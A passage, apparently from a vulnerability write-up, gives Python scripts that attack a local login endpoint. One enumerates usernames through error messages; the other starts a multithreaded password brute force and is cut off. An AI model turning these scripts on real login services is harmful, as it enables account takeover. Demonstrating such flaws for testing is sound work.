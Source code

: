 **Automated Username Enumeration Script**:
```python
import requests
import time

def enumerate_users(wordlist_file):
    """Enumerate valid usernames based on error messages"""
    valid_users = []
    
    with open(wordlist_file, 'r') as f:
        usernames = f.read().splitlines()
    
    for username in usernames:
        data = {
            'username': username,
            'password': 'test123'
        }
        
        response = requests.post('http://localhost:8000/login/', data=data)
        
        if "does not exist" not in response.text:
            print(f"[+] Valid username found: {username}")
            valid_users.append(username)
        else:
            print(f"[-] Invalid username: {username}")
            
        # No rate limiting, but be nice to the server
        time.sleep(0.1)
    
    return valid_users

# Usage
valid_users = enumerate_users('usernames.txt')
```

### 2. Brute Force Attack (No Rate Limiting)

**Password Brute Force Script**:
```python
import requests
import concurrent.futures

def try_password(username, password):
    """Try a single password"""
    data = {
        'username': username,
        'password': password
    }
    
    response = requests.post('http://localhost:8000/login/', data=data)
    
    if "Invalid password" not in response.text and "does not exist" not in response.text:
        return password
    return None

def brute_force_password(username, wordlist_file, threads=50):
    """Brute force password with multiple threads"""
    with open(wordlist_file, 'r') as f:
        passwords = f.read().splitlines()
    
    print(f"[*] Brute forcing password for user: {username}")
    print(f"[*] Using {threads} threads")
    
    with concurrent.futures.ThreadPoolExecutor(max_workers=threads) as executor:
```